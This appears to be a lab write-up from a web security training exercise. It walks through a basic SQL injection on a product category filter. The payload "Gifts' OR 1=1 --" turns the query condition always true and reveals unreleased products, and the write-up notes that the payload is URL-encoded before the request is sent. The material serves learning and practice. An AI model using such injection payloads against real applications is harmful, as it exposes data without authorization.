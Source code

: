 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234007067-ccccb2d9-6ecf-41cf-b603-6d380c5a180b.png)

## Solution : 

Query made - 

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

To view all the products (both released and not released) , we include **Gifts' OR 1=1 --** so that it the condition evaluates to TRUE & displayed all the gifts.

The query looks like 

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1`
```

> NOTE - URL encode before forwarding the request


